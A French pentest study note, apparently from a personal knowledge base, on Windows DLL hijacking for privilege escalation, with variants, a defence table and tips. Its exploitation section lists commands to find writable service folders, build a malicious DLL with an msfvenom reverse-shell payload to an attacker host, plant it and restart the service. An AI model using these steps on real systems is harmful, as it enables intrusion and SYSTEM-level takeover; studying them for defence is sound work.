

# 🧩 DLL Hijacking

> [!info] **En 1 phrase**
> DLL Hijacking = déposer une **DLL malveillante** à un endroit où un service légitime va la charger
> → le code s'exécute avec les privilèges du service (souvent **SYSTEM**).

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Windows charge les DLL par **ordre de recherche** (dossier du process, puis System32, puis PATH).
> Si le dossier de l'app est en écriture, on y met notre DLL avant que Windows cherche System32.

---

## 🎯 Deux variantes

| Variante | Principe |
|---|---|
| **Unquoted path** | `C:\Program Files\App\Service\svc.exe` → on crée `C:\Program Files\App\Service.exe` (l'espace fait "couper" le chemin) |
| **DLL manquante** | Procmon montre une DLL introuvable dans un dossier writable |

---

## 🛠️ Exploitation

```bash
# 1. Repérer un service avec un binaire/dossier writable
sc qc <service>
icacls "C:\Program Files\MyApp\"

# 2. Voir quelle DLL il charge et d'où (Process Monitor : filtre NAME NOT FOUND)

# 3. Générer une DLL malveillante
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x LPORT=4444 -f dll -o evil.dll

# 4. Déposer + redémarrer le service
copy evil.dll "C:\Program Files\MyApp\evil.dll"
sc start <service>
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **ACL strictes** | Dossiers d'application non modifiables par les users |
| **Charger en chemin absolu** | Éviter la recherche PATH |
| **Signatures / AppLocker** | N'autoriser que les DLL signées |
| **Surveillance** | Charges de DLL depuis des dossiers non standard |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Procmon est l'outil clé**
> Il montre le **chemin exact** des DLL chargées et les "NAME NOT FOUND" → on sait où placer la notre.

> [!warning] ⚠️ **Piège** : changer de dossier d'installation de l'app peut "réparer" la vuln. C'est une mise à jour de config, pas toujours un simple patch.

---

## 🔗 Liens

- [[Privilege Escalation Windows|🪟 Privesc Windows]]
- [[Reverse Shells|🕸️ Reverse Shells]]
- → Note complète : [[06 - Post-Exploitation|🕹️ Post-Exploitation]]
